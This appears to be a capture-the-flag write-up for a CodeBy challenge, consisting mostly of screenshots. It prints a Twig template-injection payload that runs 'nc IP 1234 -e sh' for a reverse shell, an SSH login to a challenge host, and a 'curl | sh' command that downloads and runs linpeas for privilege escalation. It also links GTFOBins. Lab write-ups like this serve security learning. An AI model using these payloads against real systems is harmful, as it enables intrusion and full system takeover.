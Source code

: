 ![image](https://github.com/stensil4rt/CodeBy/assets/62753044/969543bc-fc24-4ab6-bf46-153b72723e11)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/48198394-d3ce-4641-93fc-6e3d77a4809c)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/2861d870-dd91-4a6c-b414-35fe4b6641c5)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/ec85fdf6-c24f-494b-8a44-8bdd6eb9fabd)

https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/2ebf5ba5-a5bb-42c3-81c0-80396848a7df)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/8f424bce-8053-4c8b-83a9-db6af40a8708)
```
{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("nc IP 1234 -e sh")}}
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/6dfbff28-1ee3-4ead-972b-5964eb44e926)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/9626ee0a-6ff8-4230-8cb8-5a4c1df375a4)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/0008ab05-e8ac-4fbd-8fe7-5139bb66ccac)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/a3affac4-1ddf-4669-a342-622130059480)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/8f923809-0e4c-44fb-b031-7bd0583126ae)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/c3f3cbfe-b034-420d-9fa7-8aae4a6ef436)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/a0688355-fc77-4da7-a5f1-fd66433fa5b6)
```
ssh kevin@62.173.140.174 -p 18122
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/4ddada70-30b9-4639-8774-0c0f0c469ed1)
```
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/c2305b25-6448-4fb9-a9cb-2b1184d1afa0)

https://gtfobins.github.io/gtfobins/cp/

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/f60ee4cb-5bc7-4eb9-ab0d-19ef39861037)

